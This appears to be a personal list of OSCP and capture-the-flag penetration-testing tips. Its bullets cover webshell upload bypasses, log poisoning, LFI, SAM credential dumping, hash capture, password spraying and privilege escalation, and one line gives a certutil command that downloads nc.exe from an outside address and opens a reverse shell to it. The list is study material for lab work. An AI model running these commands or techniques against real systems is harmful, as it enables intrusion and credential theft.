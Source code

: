 Here is the reformatted content with each point preceded by a dash and placed on a new line:

---

## Takeaways from Experience

- Jaws, privesccheck.ps1 are worth running if you're completely stuck.
- When in doubt, new technology, unfamiliar port, check hack tricks. Sweetpotato & god potato.
- How to know which version of Net (for sharp collection)?
- Laps, read admin password.
- When testing for SSTI, try {{7*7}}.
- /var/tmp/payload.sh is best guess.
- Always run pspy, especially if a cronjob is running.
- Pkexec->pwnkit.
- If you see a Pyc file, especially if it is in an interesting location, decompile it and view the code.
- If your file upload attack just isn't working, check if you can upload .htaccess, find where it’s saved, and then upload webshell (AddType application/x-httpd-php .genius or .anymadeupname).
- SeManageVolumeExploit.exe.
- Check headers for windows api when you're submitting information in a form, especially a link, then set up responder and try to capture hashes when it hits your tun0.
- A reliable way to get shell on Windows is to transfer nc.exe and do a simple nc reverse shell, same as the one from hacktricks god potato.
- If you're in a Windows database server, and you're trying to communicate out, 8082 is the outbound database port, use this if transferring from database.
- Simple way to get more information about files in directory, such as who owns them: 'dir /a /o /q'
- If you see a lot of custom content on a CTF website, you should use cewl and create a custom wordlist.
- Always fuzz php parameters in browser if you get the opportunity (find S1RENs offsec walkthrough).
- Say that you're within the system, and you're trying to get in as www, you can poison the logs of /proc/self/environ, /var/log/auth.log, or access.log and then do ?&cmd=payload.
- Run ls -lsa in ftp so that you don't skip over hidden files.
- Btop is a cooler version of htop.
- Be aware that you need to use a -sT tcp connect scan to scan certain proxies.
- If you can’t ls inside of directory, try getfacl & potentially cat the files inside.
- Even if directory is 403, you can FUZZ past it. nmap —script=smb-enum-shares.
- Write permissions for smb? -> upload revshell in disguise. Look for files that you know people are going to click on, ideally replacing those.
- Joomla->joom scan.
- Always look up vulnerabilities, even for seemingly homemade software (check the tab title).
- Make sure to spray usernames as passwords as well (in another cat file).
- Always check for default credentials.
- If stagless shell isn’t working, try a staged one.
- Read through the entire exploit code, there may be a little comment that means everything.
- If you’re getting a little functionality or progress with a PoC, but it doesn’t ultimately work, try another one (or two).
- If a machine is slow, revert it right away.
- Run "dig any website.offsec @IP" to query more information about the DNS server.
- When doing the "php://filter/convert.base64-encode/resource=index" thing, look for included files in the code, and then replace the value, in this case, index, to keep investigating code.
- If you're in a situation where you can upload a zip file, there's a php module where you can make the server read it, "192.168.234.229/index.php?file=zip://uploads/upload_1715711517.zip#rev" (https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/?source=post_page-----b49a52ed8e38--------------------------------).
- If nothing is working on a file upload, you can try to overwrite their .htaccess file with your own, "AddType application/x-httpd-php .genius"
- If you're ever able to run into the SAM or SYSTEM files in Windows smb or filesystem, run "impacket-secretsdump -sam SAM -system SYSTEM LOCAL".
- If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.
- If a normal bash reverse shell doesn't work in a php command, try encoding it and setting the port to 443 or 80.
- Always try password reuse, even and especially in mysql. This should be automatic. Create a script that you can run with netexec that automatically runs the gauntlet whenever you get any new creds, even if they are just prospective. Be aware of the lockout policy.
- Try to upload a malicious plugin for WordPress, or any CMS, if possible. CMSs also cry for public exploits in the CTF world.
- If you have access to the files in /var/www/html/ and there's a website that you are unable to access, whether it be on the loopback or not, configure the website code where you can login.
- Check if you have access to the webroot with SMB so you can put a web shell in there.
- Always search through history files, for kdbx, and txt files.
- Always try ftp with the username anonymous and the password anonymous.
- If you have a resolved domain, always add it to your hosts file, then test for subdomains with "gobuster dns -d relia.com -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30", with the weird open http port that you found (if relevant), "http://web02.relia.com:14080/".
- If one exploit isn't doing the job, check out another one, if that doesn't work, there are some great exploits that are available on GitHub through Google. Blogs that walk you through exploits are awesome and help understand the vulnerability you're facing, which helps you personalize it to your situation.
- If the executable that runs the msfvenom path doesn't work, try the other c code that creates an admin user on the system.
- Always check out exploits for Apache and the other web technologies. It's crazy how often these pop up.
- Always check for alternative file names, in the case of id_rsa, check for ".ssh/id_dsa, .ssh/id_ecdsa, .ssh/id_ed25519, .ssh/authorized_keys". Note that nmap should show you which keys they are using.
- If possible, always compile the exploit on the target machine. Only do it on your machine (in the CTF context) if you run into a gajillion issues.
- Whenever you see a question mark in the URL, think LFI, PHP wrappers, SQLi.
- If you have LFI and can already get a shell on the server, plant a reverse shell in the web root and execute it through the LFI.
- If you're stuck on a Linux system, use pspy.
- Find a way to upload document to ANY directory in the webroot, always recursively search for directories.
- Try all of the netexec enumeration commands to verify credentials, explore vectors. Create a script to do do.
- When using wget in a payload, don't do http://$IP.. leave out the 'http://'. There was a payload that didn't work when you kept the http://.
- If nc isn't working for a revshell, and there are common variables to what you saw with the Berlin box, aka spring boot and java, try adding "busybox" in front of the command. Revshells.com has a version.
- For port 8443, use a hostname with HTTPS instead of HTTP. (Face palm).
- Say that you upload a web or reverse shell on one port (example 8443), the method of accessing it may be through one of the other port (such as 8000). Enumerate to find place the wwwroot.
- If there is a URL input on a Windows server, try to ping your own server and capture the hash with responder.
- When there is a URL input, instead of accessing your python server, you can create an impacket smb server and get a file through that method. For some reason, this works sometimes while the python server does not.
- If you get credentials, you should always rewind and try to log in the original services that you were trying to enumerate, such as ftp where you can place a shell in the webroot. This has come up again and again.
- Assume that the name of the box is a username on the system.
- Do you need to have the id_rsa.pub in your directory? not only the private key? try pub 666 priv 600.
- If there are any weird binaries that stick out, especially if they have suids or guids set, run a string against them and check whether they have any relative paths that you can hijack. you could simply modify the path (put a writable directory at the front) & put a reverse shell in the writable directory which the same name. just make sure to change the permissions to make it executable
- Start at the smaller attack surfaces, and work your way to the larger ones if need be.
- If you can upload/overwrite files, try to add a modified /etc/passwd with you in there, whenever you can, always do "../../../../../../../../etc/passwd" to avoid risking a lot of your time.
- If anything has a password, and you can't get into it, hashcat can probably crack it.. I made this mistake with the zip file.. it's worth a search to find out if it is possible.
- Whenever you're facing an exposed .git repository, try using git-dumper to ease the process.
- Sometimes you're unable to ssh into a user with the password that you have, and instead, have to 'su username' to login as that user. Do not forget to do this.
- If something seems out of the ordinary, attack the fuck out of it. The more experience you have, the better instincts you will have.
- Always check the SAM if there's any sort of backup or loose permissions in SMB.
- Dumping secrets is mainstream knowledge, stop slackin' (C:\windows.old\windows\system32\SAM & SYSTEM>) -> "/usr/local/bin/secretsdump.py -sam SAM -system SYSTEM LOCAL".
- If you can see that your shell is not maintaining, try modifying the exploit code to suit your needs. In this case, I downloaded and ran nc.exe. "certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80" instead of typing the command as a parameter to the exploit.
- For any weird port, search up related exploit along with any fingerprint that you have to narrow down results.
- If there's a weird port, such as cgms 3003, try to connect to it and get the version "nc -zv $IP -> help -> version -> search exploit". If this makes no sense you can also refer to "https://github.com/xsudoxx/OSCP".
- Always search for exploits using terms as vague as possible, then narrow down afterwards, this way you don't miss something.
- If you have problems compiling an exploit on a target, try doing it on your local computer.
